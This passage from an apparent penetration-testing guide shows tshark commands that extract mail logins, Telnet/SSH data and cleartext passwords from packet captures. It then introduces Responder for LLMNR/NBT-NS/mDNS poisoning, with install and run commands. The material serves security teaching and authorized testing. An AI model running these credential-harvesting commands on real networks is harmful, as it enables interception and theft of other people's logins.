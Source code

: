 ```bash
echo "[+] Extracting IMAP/POP3 authentication..."
tshark -r $PCAP_FILE -Y "imap.request contains \"LOGIN\" || pop.request contains \"USER\" || pop.request contains \"PASS\"" -T fields -e frame.time -e ip.src -e data-text-lines > $OUTPUT_DIR/mail_auth.txt

echo "[+] Extracting Telnet/SSH data..."
tshark -r $PCAP_FILE -Y "telnet.data or ssh.key" -T fields -e frame.time -e ip.src -e data-text-lines > $OUTPUT_DIR/telnet_ssh_data.txt

echo "[+] Extracting cleartext passwords..."
tshark -r $PCAP_FILE -Y "frame contains \"password\" or frame contains \"passwd\" or frame contains \"username\" or frame contains \"login\" or frame contains \"credentials\"" -T fields -e frame.time -e ip.src -e data-text-lines > $OUTPUT_DIR/cleartext_passwords.txt

echo "[+] Credentials extracted to $OUTPUT_DIR"
```

This approach is effective because:
- It systematically extracts credentials from multiple protocols
- It preserves contextual information (timestamps, source IPs)
- It works with already-captured traffic, enabling offline analysis
- It can identify credentials in custom applications

Despite the rise in encryption, many internal networks and legacy systems still transmit credentials in cleartext or use weak encryption that can be decrypted after capture.

## Responder: LLMNR/NBT-NS/MDNS Poisoning

Responder is a powerful tool designed to respond to specific network requests, allowing you to harvest credentials through LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), and multicast DNS poisoning.

### Installation

```bash
# On Kali Linux (pre-installed)
sudo apt update
sudo apt install responder

# From source
git clone https://github.com/lgandx/Responder
cd Responder
```

### Basic Usage

```bash
# Start Responder on the specified interface
sudo responder -I eth0

# Start with specific features enabled
sudo responder -I eth0 -wrf

# Start in analyze mode (passive)
sudo responder -I eth0 -A
```
